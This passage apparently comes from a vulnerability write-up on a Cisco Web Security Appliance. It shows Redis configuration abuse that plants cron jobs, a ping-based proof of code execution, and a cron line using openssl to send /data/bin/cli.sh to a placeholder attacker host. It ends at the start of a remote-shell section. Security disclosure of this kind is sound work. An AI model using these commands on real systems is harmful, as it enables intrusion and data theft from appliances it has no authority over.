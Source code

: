The first and second command instruct the server to write the configuration in the "/var/cron/tabs/lowpriv" file, which is where FreeBSD systems store "cron" jobs. The third command writes a series of newlines and instructs the cron daemon to send 2 ICMP "ping" packets to a specific host every 2 minutes.
Running a packet capture on the <ATTACKER_IP> host demonstrated code execution:

```
17:47:59.800270 IP <CISCO_WSA_IP> > <ATTACKER_IP>: ICMP echo request, id 17474, seq 0, length 64
17:47:59.800341 IP <ATTACKER_IP> > <CISCO_WSA_IP>: ICMP echo reply, id 17474, seq 0, length 64
17:48:00.867319 IP <CISCO_WSA_IP> > <ATTACKER_IP>: ICMP echo request, id 17474, seq 1, length 64
17:48:00.867373 IP <ATTACKER_IP> > <CISCO_WSA_IP>: ICMP echo reply, id 17474, seq 1, length 64
```

As the evidence shows, two ICMP "ping" packets were sent from the Cisco WSA to the host, demonstrating code execution.

## Data Exfiltration
Through the same mechanism it was possible to demonstrate data exfiltration. A listener was set up on a remote system:
```bash
$ sudo openssl s_server -quiet -key key.pem -cert cert.pem -port 443
```
Obviously you need to create a SSL certificate and private key beforehand. Or you can use `ncat`.

Then using the Redis configuration method, the appliance was instructed to deliver arbitrary files as shown below, in this case the file `/data/bin/cli.sh`:

```bash
set backup3 "\n\n\n*/1 * * * * openssl s_client -quiet -connect <ATTACKER_IP>:443 < /data/bin/cli.sh\n\n"
```

After a short while, the file was then received:
```bash
$ head cli.sh
#!/bin/sh -
# $Header: //prod/coeus-15-1-0-br/wsa/freebsd/bootstrap/generic_wrapper.sh#1 $

# PROVIDE: dtd
# BEFORE: heimdall
# REQUIRE: local

[ -f /etc/phoebe.conf ]    && . /etc/phoebe.conf
[ -f /etc/asyncos.conf ]    && . /etc/asyncos.conf
[ "x$IPDATA" = "x" ]        && export IPDATA=/data
```

## Semi-interactive Shell

Through the same mechanism it was possible to execute arbitrary commands on the
appliance. I think I tried all combinations of netcat, bash pipe
redirections and magic, but none worked as the binaries were not
accessible or redis was jailed ("chrooted"). Using `openssl` seemed to
do the trick:
